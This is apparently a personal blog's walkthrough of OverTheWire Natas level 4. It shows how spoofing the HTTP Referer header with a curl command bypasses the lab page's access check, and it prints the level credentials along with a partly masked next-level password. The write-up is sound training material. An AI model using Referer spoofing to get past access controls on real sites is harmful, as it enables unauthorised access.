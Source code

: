 ```yaml
---
title: OverTheWire Natas Level 3 -> 4
author: Michael McDonagh
pubDatetime: 2025-03-02T20:30:00Z
slug: overthewire-natas-4
featured: false
draft: false
tags:
  - overthewire
  - natas
  - web
ogImage: ""
description: Solution for OverTheWire Natas level 4 challenge.
---
```


## Description

Username: natas4  

URL:      <http://natas4.natas.labs.overthewire.org>

---

## Solution

Solution for the Overthewire.org [Natas level 3 -> Level 4](https://overthewire.org/wargames/natas/natas4.html)

Visit the url `http://natas4.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas4` and the password obtained from the previous challenge.

After logging in we get a message saying "Access disallowed".

![natas04 home page](@/assets/images/overthewire/natas/natas04_home_page.png)

The message further goes on to say that authorized users need to come from "<http://natas5.natas.labs.overthewire.org>"

Checking the source code of the page does not give any new information.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Going back to the message, how does the browser know what page we came from ?  
Information like that is passed in the `http header`.  
The Mozilla developer site is a good resource for checking what headers are available. [Mozilla Developer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers).  

After reading through the headers we find what we are looking for.

```text
Referer: The address of the previous web page from which a link to the currently requested page was followed.
```

The `Referer` header tells the page we visit where we came from.

So now we need to send a request to the natas4 page while setting our own `referer` value. We can do this using a command line tool `curl`.

`curl` is a tool for transferring data from or to a server and supports user authentication, cookies and setting header values.

User this curl command we get the password.

```bash
curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
```

* `curl`
* `--user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ` --authentication using username:password format
* `--referer http://natas5.natas.labs.overthewire.org/` --set the referer header to the natas5 url
* `http://natas4.natas.labs.overthewire.org/` the url we are visting.

Since `curl` is a command line program we get the html source code back.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOf**************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Assuming the correct referer is set we get the password.

```text
Access granted. The password for natas5 is iX6IOf**************************
```
